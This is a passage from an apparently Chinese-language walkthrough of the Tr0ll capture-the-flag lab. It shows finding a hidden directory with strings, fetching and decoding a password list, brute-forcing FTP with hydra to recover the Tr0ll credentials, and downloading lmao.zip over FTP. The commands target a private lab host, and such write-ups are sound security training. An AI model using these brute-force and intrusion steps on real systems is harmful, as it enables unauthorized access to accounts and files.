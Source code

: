 发现只有 picture3 的大小不一样，于是 strings 查看下字符串

```bash
─# strings picture3
Look Deep within y0ur_self for the answer
```

把 `y0ur_self` 拼接到目录，看到一个 base64 编码后的密码字典，下载后解码保存

```bash
└─# wget http://192.168.0.102/y0ur_self/answer.txt
└─# cat answer.txt | base64 -d > answer.list
```

# 21端口渗透

我们准备一个账号本 user.list，加上靶场关键词 `Tr0ll`，密码可以用之前找到的密码本，再里面也添加靶场关键词 `Tr0ll`

hydra 爆破

```bash
└─# hydra -L user.list -P answer.list ftp://192.168.0.102

[21][ftp] host: 192.168.0.102   login: Tr0ll   password: Tr0ll
```

ftp 登录，发现 `lmao.zip` ，于是下载到本地

```bash
└─# ftp 192.168.0.102
Connected to 192.168.0.102.
220 Welcome to Tr0ll FTP... Only noobs stay for a while...
Name (192.168.0.102:root): Tr0ll
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||39148|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1474 Oct 04  2014 lmao.zip
226 Directory send OK.
ftp> binary 
200 Switching to Binary mode.
ftp> get lmao.zip
local: lmao.zip remote: lmao.zip
229 Entering Extended Passive Mode (|||46635|).
150 Opening BINARY mode data connection for lmao.zip (1474 bytes).
100% |*********************************************************************************************************************|  1474       32.69 MiB/s    00:00 ETA
226 Transfer complete.
1474 bytes received in 00:00 (5.16 MiB/s)
```

## 爆破zip
